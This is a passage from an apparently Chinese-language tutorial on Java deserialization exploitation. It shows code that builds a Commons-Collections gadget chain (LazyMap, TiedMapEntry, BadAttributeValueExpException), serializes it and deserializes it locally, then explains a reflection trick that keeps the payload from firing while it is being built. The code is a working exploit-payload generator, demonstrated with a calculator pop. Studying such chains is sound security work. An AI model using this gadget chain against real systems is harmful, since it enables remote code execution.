 ```java
        // 将lazyMap封装到TiedMapEntry中
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "val");
        // 通过反射给badAttributeValueExpException的val属性赋值
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        Field val = badAttributeValueExpException.getClass().getDeclaredField("val");
        val.setAccessible(true);
        val.set(badAttributeValueExpException, tiedMapEntry);
        // 序列化
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(badAttributeValueExpException);
        oos.flush();
        oos.close();
        // 本地模拟反序列化
        ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());
        ObjectInputStream ois = new ObjectInputStream(bais);
        Object obj = (Object) ois.readObject();
    }
}
```

这里有一点需要注意，那就是不嗯给你直接在初始化的时候就给badAttributeValueExpException 对象的val属性赋值，因为它的构造函数如下：

```java
public BadAttributeValueExpException (Object val) {
        this.val = val == null ? null : val.toString();
    }
```
这里直接就调用了`val.toString`，所以，如果通过构造函数赋值val属性为我们构造的TiedMapEntry对象对导致在本地生成payload的时候就执行了命令，并且我们精心构造的对象还会被转换为String类型，就失效了。最后，弹个计算器吧～

![](ser_example1/wireshark3.png)
